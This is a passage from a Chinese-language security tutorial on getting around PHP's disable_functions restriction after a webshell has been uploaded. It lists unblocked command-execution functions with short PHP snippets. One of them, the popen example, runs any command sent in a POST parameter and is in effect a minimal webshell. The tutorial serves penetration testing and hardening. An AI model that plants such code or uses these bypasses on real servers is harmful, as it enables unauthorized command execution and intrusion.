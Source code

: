 ## ByPass-Disable_functions-姿势总结

# 0X01 Disable_Functions

为了安全起见，很多运维人员会禁用PHP的一些“危险”函数，例如eval、exec、system等，将其写在php.ini配置文件中，就是我们所说的disable_functions了，特别是虚拟主机运营商，为了彻底隔离同服务器的客户，以及避免出现大面积的安全问题，在disable_functions的设置中也通常较为严格。

如果在渗透时，上传了webshell却因为disable_functions禁用了我们函数而无法执行命令的话，这时候就需要想办法进行绕过，突破disable_functions。

![image-20210525144545854](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525144556.png)

# 0X02 常见绕过姿势

## 2.1 黑名单绕过

通过disable functions限制危险函数，也可能会有限制不全的情况。如果运维人员安全意识不强或对PHP不甚了解的话，则很有可能忽略某些危险函数，常见的有以下几种。

**exec()**

```php
<?php
echo exec('whoami');
?>
```

**shell_exec()**

```php
<?php
echo shell_exec('whoami');
?>
```

**system()**

```php
<?php
system('whoami');
?>
```

**passthru()**

```php
<?php
passthru("whoami");
?>
```

**popen()**

```php
<?php
$command=$_POST['cmd'];
$handle = popen($command,"r");
while(!feof($handle)){        
    echo fread($handle, 1024);  //fread($handle, 1024);
}  
pclose($handle);
?>
```
